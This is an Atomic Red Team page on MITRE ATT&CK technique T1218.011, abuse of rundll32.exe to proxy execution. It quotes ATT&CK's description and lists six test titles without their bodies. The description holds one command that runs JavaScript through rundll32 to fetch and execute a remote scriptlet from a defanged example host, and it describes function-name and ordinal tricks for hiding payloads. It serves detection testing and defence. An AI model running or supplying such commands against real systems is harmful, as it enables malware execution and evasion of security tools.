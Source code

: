 # T1218.011 - Signed Binary Proxy Execution: Rundll32
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/011)
<blockquote>Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. [Shared Modules](https://attack.mitre.org/techniques/T1129)), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads (ex: <code>rundll32.exe {DLLname, DLLfunction}</code>).

Rundll32.exe can also be used to execute [Control Panel](https://attack.mitre.org/techniques/T1218/002) Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)

Adversaries may also attempt to obscure malicious code from analysis by abusing the manner in which rundll32.exe loads DLL function names. As part of Windows compatibility support for various character sets, rundll32.exe will first check for wide/Unicode then ANSI character-supported functions before loading the specified function (e.g., given the command <code>rundll32.exe ExampleDLL.dll, ExampleFunction</code>, rundll32.exe would first attempt to execute <code>ExampleFunctionW</code>, or failing that <code>ExampleFunctionA</code>, before loading <code>ExampleFunction</code>). Adversaries may therefore obscure malicious code by creating multiple identical exported function names and appending <code>W</code> and/or <code>A</code> to harmless ones.(Citation: Attackify Rundll32.exe Obscurity)(Citation: Github NoRunDll) DLL functions can also be exported and executed by an ordinal number (ex: <code>rundll32.exe file.dll,#1</code>).

Additionally, adversaries may use [Masquerading](https://attack.mitre.org/techniques/T1036) techniques (such as changing DLL file names, file extensions, or function names) to further conceal execution of a malicious payload.(Citation: rundll32.exe defense evasion) </blockquote>

## Atomic Tests

- [Atomic Test #1 - Rundll32 execute JavaScript Remote Payload With GetObject](#atomic-test-1---rundll32-execute-javascript-remote-payload-with-getobject)

- [Atomic Test #2 - Rundll32 execute VBscript command](#atomic-test-2---rundll32-execute-vbscript-command)

- [Atomic Test #3 - Rundll32 execute VBscript command using Ordinal number](#atomic-test-3---rundll32-execute-vbscript-command-using-ordinal-number)

- [Atomic Test #4 - Rundll32 advpack.dll Execution](#atomic-test-4---rundll32-advpackdll-execution)

- [Atomic Test #5 - Rundll32 ieadvpack.dll Execution](#atomic-test-5---rundll32-ieadvpackdll-execution)

- [Atomic Test #6 - Rundll32 syssetup.dll Execution](#atomic-test-6---rundll32-syssetupdll-execution)
